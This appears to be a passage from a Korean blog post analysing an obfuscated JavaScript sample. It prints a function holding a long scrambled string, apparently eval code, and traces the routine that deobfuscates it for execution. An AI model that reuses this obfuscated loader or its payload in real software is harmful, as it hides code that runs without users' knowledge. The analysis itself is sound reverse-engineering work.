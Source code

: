   

하지만 여전히 코드는 형체를 알아 볼 수 없다.

  

function EO49(Fg50)를 들여다 보자

  

```javascript

function EO49(Fg50) {

= 'fir/opc\\r\'Stu+W.m] s.5{lp5 ehD)epj1p\'[\\(-4+2=8\"2\\a=2?Z)2e+)2h\\0\'h) /t;,/l \":\\}xp@ et\"e\\tel+hgs4\\b\'4eu Y n,y{i\\+\'= \"T\\S\"E\\y@G+4\"\\\\\'y3((Y fn4=Oe4 xp,Seo yd.f4n6a3i8l..rsr3Wee4 )py{;lSy a(rWc(tre 8(f;6\\i\".) @s0;\\e\"t3n+x+dye0(YT7)4e,;4s2 +n(}\\o\"c]p@a\\s\"t\\e\"crr,ht.\\(\"6se\\8\")br){uW; s r\\=\"ev [ta3)ur4(r ygnfSn S if8rra5atl vSs= oe {t;S . y))}40( 30mi.2ofr d e=n(p=aWl=rra .8csh6eut.(tas/aMt(\' (\\4\\W=fd( ]{24-254[}6Y9)QyF/} g;;1,-)2 +\\2\'3foPfu=T2n3TocfH t;L)i)M2o3Xonfr( (e](\"v\"S+r\"dte\"9+S\"7\".+)\"2r \"L+{\"M\" +X\"rqS\"e+M\"t\"\\+\'\"us(\"r+t\"n\"c[ hetSajMt b{r O)i e9n0t6g2a9.0e5f1r r<C o2.3motfC(p heilairhrwc C;S6o W=d 2e3=o(f ;p)6(ae8srorlsCW.e) eIu{rnt t,)2(93ASO (de<l9i F7t5x,e5T1eDt0aje)r(C+. 231eQ0Cl;))i(;thi uwQ}. t)p;i;r0c S WF =)Q) 2995A6O5([sDt3sji]x E(e;lfi]FS.\\2\"18QmC5(o )fci(;.\")pom;td. 7-6W1d9S2n1cvaHr\\-\\i\"e+p)b2t-.4.(w]Q\"wru\"w+i\"\\e\"dtl,o(\"\\+\"\")Fel;ad\" +.\"}ijc \"4+}\"oe p.Setw\"l+w\"sewGe\"\\[\"2 1,Q{C\\=\"2 9lAWOp;S).\"ctdcrecjiblOpm-ettms.yeSsejlliaFe.ngenyiptwp(i.r2ctS2\"s(2tec2etj2b.O)ewt;awe rwC}.\\t\"p i[rjc SDW= 5= 5241+Q8C+;a\';\'Z=}r\'e)p)b(ufnox3I2l)y;qtrcogtmcaucr=tFsQn9o6c;';

qN252 = Fg50;

SK92 = "";

}

```

  

뭔가 eval 코드로 추청되는 문자열을 AP9826에 담았다.

  

AP9826을 사용하는 부분을 추적 해 보면,

  

```javascript

ew84=fW4(AP9826,qN252);

```

  

fW4라는 함수에 AP9826과 qN252를 넣어 호출한다.

  

즉 , eval 코드를 난독화한 문자열(AP9826)를 FW4함수를 통해 *deobfuscate 데이터를* ew84에 담는다.

  

ew84를 **실행**해야 하기 때문에 **ew84를 호출하는 부분**을 찾으면 된다.

  